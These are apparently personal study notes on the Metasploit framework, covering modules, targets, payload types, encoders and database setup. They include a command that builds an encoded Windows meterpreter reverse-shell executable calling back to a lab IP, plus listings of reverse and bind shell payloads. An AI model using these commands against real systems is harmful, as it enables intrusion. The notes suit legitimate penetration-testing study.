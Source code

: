 ### Introduction
The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code.
```bash
msfconsole
```
## MSF Components
### Modules
```bash
# 794   exploit/windows/ftp/scriptftp_list

<No.> <type>/<os>/<service>/<name> # Syntax
#  Index No.: displayed to select the exploit we want afterward during our searches

# Type : 
# Auxiliary   Scanning, fuzzing, sniffing, admin tasks; provide extra functions
# Encoders    Help payloads arrive intact at target
# Exploits    Use vulns to deliver payloads
# NOPs        Maintain consistent payload sizes
# Payloads    Remote code that connects back to attacker
# Plugins     Extra scripts for msfconsole usage
# Post        Info gathering, pivoting, and post-exploit actions

# OS: Operation System
# Service: vulnerable service
# Name : actual action that can be performed using this module
---------------------------------------------------------------------

search type:exploit platform:windows cve:2021 rank:excellent microsoft # Specific Search
setg LHOSTS 10.10.10.40 # set globale value 
set VHOST <vhost.domain> #=> HTTP server virtual host (importe to look on it)
```

### Targets
`Targets` are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system.
```bash
show targets
# 1   IE 7 on Windows XP SP3  ,  2   IE 8 on Windows XP SP3
set target 1 # select a target 1 win xp
```
**Target Types**
There is a large variety of target types. Every target can vary from another by service pack, OS version, and even language version. It all depends on the return address and other parameters in the target or within the exploit module.
The return address `jmp esp` can vary because a particular language pack changes addresses, a different software version is available,

To identify a target correctly, we will need to:

- Obtain a copy of the target binaries
- Use msfpescan to locate a suitable return address

###  Payloads
A `Payload` in Metasploit refers to a module that aids the exploit module in (typically) returning a shell to the attacker
There are three different types of payload modules in the Metasploit Framework: Singles, Stagers, and Stages:

 *Singles:* A `Single` payload contains the exploit and the entire shellcode for the selected task.
*Stagers:* are typically used to set up a `network connection` between the attacker and victim and are designed to be small and reliable
*Stages* are` payload components` that are downloaded by stager's modules.

```bash
msf6 > show payloads
grep meterpreter grep reverse_tcp show payloads # filtring the payloads
set payload <no.> # select a payload

# generic payloads
# multi-use listener
generic/custom
# bind shell, TCP
generic/shell_bind_tcp
# reverse shell, TCP
generic/shell_reverse_tcp

# windows x64 payloads
# run any cmd
windows/x64/exec
# load DLL path
windows/x64/loadlibrary
# show msgbox
windows/x64/messagebox
# reverse shell, single
windows/x64/shell_reverse_tcp
# reverse shell, staged
windows/x64/shell/reverse_tcp
# bind shell over IPv6
windows/x64/shell/bind_ipv6_tcp

# advanced payloads
# meterpreter + variants
windows/x64/meterpreter/$
# powershell sessions + variants
windows/x64/powershell/$
# VNC access via injection
windows/x64/vncinject/$
```
### Encoders
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o shell.exe

msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders # for the exploit
```

###  Databases
```bash
# setup db
sudo service postgresql start
sudo msfdb init    
sudo msfdb status # check the db status
sudo msfdb run 

# have problem in msfdb init ? , port 5432 failed: Connection refused 
sudo nano /etc/postgresql/17/main/postgresql.conf  # check the port to 5432
sudo msfdb run
msf6 > connect 127.0.0.1 5432

# if we alredy setup the db
sudo msfdb reinit
sudo cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
sudo msfdb run

msf6 > db_status   # connected 
msf6 > help database


workspace -h
workspace -a Target_1 # add new workspace
workspace Target_1 
workspace             # * Target_1


hosts # host addresses, hostnames, and other information(Nessus, NexPose, or Nmap)
services  # information on services discovered during scans or interactions.
creds  # credentials gathered during your interactions
loot # works in conjunction with the command above to offer you an at-a-glance list of owned services and users

db_nmap -sV -sS 10.10.10.8 # nmap scan inside msfconsole
b_import nmap_scan.xml # import nmap scan
db_export -f xml backup.xml # export db
```